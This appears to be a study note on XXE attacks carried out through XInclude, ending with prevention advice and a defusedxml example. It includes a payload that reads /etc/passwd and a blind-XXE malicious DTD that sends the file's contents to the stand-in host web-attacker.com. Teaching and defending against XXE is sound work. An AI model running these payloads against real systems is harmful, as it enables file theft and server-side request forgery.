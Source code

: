# XXE via XInclude

## XXE via XInclude

### **Summary**

XML External Entity (XXE) vulnerabilities occur when an application processes user-controlled XML data without proper validation. Attackers can exploit these vulnerabilities to read sensitive files from the server, perform **server-side request forgery (SSRF)**, and potentially execute **denial-of-service (DoS) attacks**. This is significant because XML parsers can handle **external entities**, leading to unauthorized data access or remote interactions.

***

### **Definition Bank**

* **XML (Extensible Markup Language):** A markup language used for encoding documents in a format readable by both humans and machines.
* **External Entity:** A reference in an XML document that points to an external source, such as a file or URL.
* **Blind XXE:** An attack where the response doesn't reveal data directly but can still be exfiltrated through out-of-band techniques.
* **SSRF (Server-Side Request Forgery):** An attack where the server makes unauthorized requests to internal resources on behalf of the attacker.
* **Namespace:** A collection of XML elements and attributes identified by a unique URI.

***

### **XInclude Attack Summary**

#### **What is XInclude?**

XInclude (**XML Inclusions**) allows external resources (such as files) to be included in an XML document using the `<xi:include>` tag.

#### **Key Components of an XInclude Attack**

**1. Namespace Declaration (Required)**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
```

* This **activates** the XInclude feature in XML.
* The URL `"http://www.w3.org/2001/XInclude"` is **not a link** but a **label** that tells the XML parser to recognize XInclude functionality.

**2. File Inclusion Payload:**

```xml
<xi:include parse="text" href="file:///etc/passwd"/>
```

* **`href`** specifies the file to retrieve (`/etc/passwd`).
* **`parse="text"`** ensures the file content is returned as plain text.

**How the Attack Works:**

1. The namespace (`xmlns:xi`) **enables** the use of `<xi:include>`.
2. The payload with `href="file:///etc/passwd"` tries to load a local file.
3. If successful, the server returns the file content in the response.

#### **Key Insight:**

* The **namespace activates the feature**, while the **`href`** specifies the target file.
* Without the namespace, the XML parser will not recognize `<xi:include>`.

***

### **Exploiting Blind XXE to Exfiltrate Data Out-of-Band**

#### **Example of a Malicious DTD**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD performs the following steps:

* Defines an XML parameter entity called `file`, containing the contents of `/etc/passwd`.
* Defines an XML parameter entity called `eval`, which dynamically declares another entity called `exfiltrate`.
* The `exfiltrate` entity makes an HTTP request to an attacker's server, exfiltrating the data.

#### **Hosting the Malicious DTD**

The attacker must host this DTD on a system they control, such as:

```
http://web-attacker.com/malicious.dtd
```

#### **XXE Payload Example:**

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This payload forces the XML parser to fetch the external DTD from the attacker's server and execute the malicious commands, exfiltrating `/etc/passwd`.

***

### **Comparison Table: Secure vs Insecure Practices**

| **Secure Practice**             | **Insecure Practice**                 |
| ------------------------------- | ------------------------------------- |
| Use **SAX** or **StAX** parsers | Use **DOM** parsers (more vulnerable) |
| Disable external entity loading | Allow external entity loading         |
| Use `secure processing` mode    | Default XML parser settings           |
| Validate and sanitize input     | Process untrusted XML directly        |

***

### **Best Practices for Preventing XXE Attacks**

* **Disable External Entity Processing:** Ensure the XML parser does not process external entities.
* **Use Safer Parsers:** Choose parsers like SAX and StAX over DOM.
* **Input Validation:** Properly validate and sanitize all XML inputs.
* **Implement Least Privilege:** Limit the server's file system access.
* **Use Security Libraries:** Consider libraries like `defusedxml` in Python.

#### **Example of Secure XML Parsing (Python)**

```python
import defusedxml.ElementTree as ET
ET.parse('data.xml')  # Secure parsing without external entities
```

***

### **Conclusion**

XXE vulnerabilities can lead to severe security issues such as **data breaches** and **server-side request forgery (SSRF)**. Following best practices like **disabling external entities**, **using secure parsers**, and **validating XML input** can help mitigate these attacks effectively.
